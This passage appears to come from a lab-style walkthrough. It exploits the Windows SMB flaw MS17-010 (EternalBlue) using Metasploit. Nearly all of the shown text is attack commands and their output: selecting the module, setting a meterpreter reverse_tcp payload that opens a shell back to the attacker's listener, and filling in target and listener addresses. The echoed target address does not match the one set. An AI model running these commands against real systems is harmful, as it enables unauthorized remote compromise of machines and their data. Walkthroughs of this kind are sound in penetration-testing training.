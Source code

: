 `use exploit/windows/smb/ms17_010_eternalblue`

`set PAYLOAD windows/x64/meterpreter/reverse_tcp` (this may be optional if your already have a payload configured when you select the module)

### 4. Check the module options

`options`

```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded
                                              Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Sta
                                             ndard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 ta
                                             rget machines.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.8.147    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

### 5. Set the appropriate options

`set RHOSTS 192.168.8.130`

`set LHOST 192.168.8.147`

`set LPORT 4444`

```
RHOSTS => 192.168.8.142
LHOST => 192.168.8.147
LPORT => 4444
```
